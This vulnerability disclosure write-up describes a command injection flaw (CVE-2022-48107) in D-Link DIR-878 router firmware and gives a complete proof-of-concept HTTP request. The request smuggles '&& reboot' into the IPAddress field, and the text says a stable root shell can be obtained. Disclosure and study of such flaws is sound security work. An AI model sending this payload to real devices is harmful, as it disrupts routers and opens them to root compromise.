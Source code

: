# D-link DIR_878_FW1.30B08.bin Command injection vulnerability

A command injection vulnerability in the component /setnetworksettings/IPAddress of D-Link DIR878 DIR_878_FW1.30B08 allows attackers to escalate privileges to root via a crafted payload.

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ： http://tsd.dlink.com.tw/GPL.asp

## 1. Affected version

![pic1](pic1.png)Figure 1 shows the latest firmware Ba of the router



## Vulnerability details

![pic2](pic2.png)

The content obtained by the program through / setnetworksettings / IPAddress is passed to V6

![pic3](pic3.png)

After that, V6 is formatted into v39 through the sprintf function, and the content in v39 is executed through the system function. There is a command injection vulnerability



## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware DIR_878_FW1.30B08.bin
2. Attack with the following POC attacks，then the router system will reboot.

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH:
Content-Length: 633
Origin: http://192.168.0.1:7018
Connection: close
Referer: http://192.168.0.1:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=LeaHzVaQ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetNetworkSettings xmlns="http://purenetworks.com/HNAP1/">
	<IPAddress>&& reboot</IPAddress>
	<SubnetMask>255.255.255.0</SubnetMask>
	<DeviceName>dlinkrouter3</DeviceName>
	<LocalDomainName></LocalDomainName>
	<IPRangeStart>1</IPRangeStart>
	<IPRangeEnd>254</IPRangeEnd>
	<LeaseTime>10080</LeaseTime>
	<Broadcast>false</Broadcast>
	<DNSRelay>true</DNSRelay>
</SetNetworkSettings>
</soap:Body>
</soap:Envelope>
```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

## Disclosure

- Dec 23, 2022:Public disclosure

- Jan 28, 2023:Assign CVE number [CVE-2022-48107](https://github.com/advisories/GHSA-w49p-h6v2-88hr)